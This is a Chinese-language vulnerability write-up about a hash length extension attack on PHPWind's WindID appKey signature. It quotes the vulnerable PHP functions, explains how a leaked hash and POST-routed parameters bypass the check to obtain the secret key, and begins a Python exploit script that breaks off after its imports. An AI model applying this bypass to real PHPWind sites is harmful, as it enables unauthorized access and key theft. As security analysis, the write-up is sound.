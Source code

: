 既然都已经说了是这类型的漏洞，那我们肯定就要找能找到的hash

showFlash这里满足要求（打印出了hash  822382cb79f915c779943a1dc131f00c）



```
public function showFlash($uid, $appId, $appKey, $getHtml = 1) `{`
$time = Pw::getTime();
$key = WindidUtility::appKey($appId, $time, $appKey, array('uid'=&gt;$uid, 'type'=&gt;'flash', 'm'=&gt;'api', 'a'=&gt;'doAvatar', 'c'=&gt;'avatar'), array('uid'=&gt;'undefined'));
$key2 = WindidUtility::appKey($appId, $time, $appKey, array('uid'=&gt;$uid, 'type'=&gt;'normal', 'm'=&gt;'api', 'a'=&gt;'doAvatar', 'c'=&gt;'avatar'), array());
```

我们再跟踪appkey



```
public static function appKey($apiId, $time, $secretkey, $get, $post) `{`
// 注意这里需要加上__data，因为下面的buildRequest()里加了。
$array = array('windidkey', 'clientid', 'time', '_json', 'jcallback', 'csrf_token',
   'Filename', 'Upload', 'token', '__data');
$str = '';
ksort($get);
ksort($post);
foreach ($get AS $k=&gt;$v) `{`
if (in_array($k, $array)) continue;
$str .=$k.$v;
`}`
foreach ($post AS $k=&gt;$v) `{`
if (in_array($k, $array)) continue;
$str .=$k.$v;
`}`
return md5(md5($apiId.'||'.$secretkey).$time.$str);
`}`
```

经过各种排序，我们可以得出这个hash的值和消息的结构

822382cb79f915c779943a1dc131f00c = md5（md5().$time.$str）

822382cb79f915c779943a1dc131f00c= md5 +1475841959 + adoAvatarcavatarmapitypeflashuid2uidundefined

里面的md5值不知道，但是是32位，$time.$str都是可控，那么我们就可以拓展这个消息，得到新的hash,而调用这个函数进行验证的得地方自然也就绕过了验证  $_windidkey我们只要传入拓展后的hash即可绕过。因为我们拓展时必须保持md5 +1475841959 + adoAvatarcavatarmapitypeflashuid2uidundefined的结构，然而排序的时候回因为传入的a(action)参数导致打乱循序，无法扩展，但是因为phpwind的路由支持post,所以post一下控制器(c)，模块(m)，动作(a)这三个参数

$_windidkey（我们拓展的hash）== md5 +1475841959 + adoAvatarcavatarmapitypeflashuid2uidundefined +padding +alistcappmapi(post排序的)正好绕过验证

填写一下cookie和url就可以获得secretkey（调用的list方法，要实现其他action自行修改，getshell就暂不讨论，这不是我们这里的重点



```
#coding=utf-8
import urllib
import urllib2
import time
import cookielib
import gzip
import StringIO
from bs4 import BeautifulSoup
import re
import hashpumpy
import sys
reload(sys)
sys.setdefaultencoding('utf-8')
def get_key(url):
    url = url + '/?m=profile&amp;c=avatar&amp;_left=avatar'
```